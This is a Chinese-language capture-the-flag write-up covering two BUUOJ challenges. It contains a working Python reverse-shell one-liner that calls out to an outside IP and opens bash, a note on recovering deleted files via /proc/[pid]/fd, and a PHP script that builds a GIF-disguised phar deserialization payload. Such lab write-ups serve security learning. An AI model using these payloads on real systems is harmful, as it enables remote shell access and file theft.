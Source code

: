 

## [V&N2020 公开赛]CHECKIN

**知识点：**

1. **反弹shll**
2. **/proc/[pid]/fd**



1.反弹shell 

```
http://c936c7ee-5778-4eab-afc5-1b1e3ce54106.node3.buuoj.cn/shell?c=python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('172.16.189.110',9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

2. /proc/[pid]/fd

**当程序打开一个文件, 会获得程序的文件描述符, 而此时如果文件被删除, 只会删除文件的目录项, 不会清空文件的内容, 原来的进程依然可以通过描述符对文件进行读取, 也就是说, 文件还存在内存里。**

**在 linux 系统中如果一个程序打开了一个文件没有关闭，即便从外部（上文是利用 rm -f flag.txt）删除之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的 fd，通过这个我们即可得到被删除文件的内容。**

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu9.jpg)



## [SWPUCTF 2018]SimplePHP

考察点：phar反序列化

```php
<?php
class C1e4r{
    public $test;
    public $str;
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params;
}
$c=new Test();
$c->params=array('source'=>'var/www/html/f1ag.php');
$b=new Show();
$b->str['str']=$c;
$a=new C1e4r();
$a->str=$b;
echo serialize($a);

@unlink("phar.phar");
$phar=new Phar("phar.phar");  //生成phar文件
$phar->startBuffering();
$phar->setStub('GIF89a'."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);   //触发头
$phar->addFromString("test.txt", "test");   //生成签名
$phar->stopBuffering();
?>
```
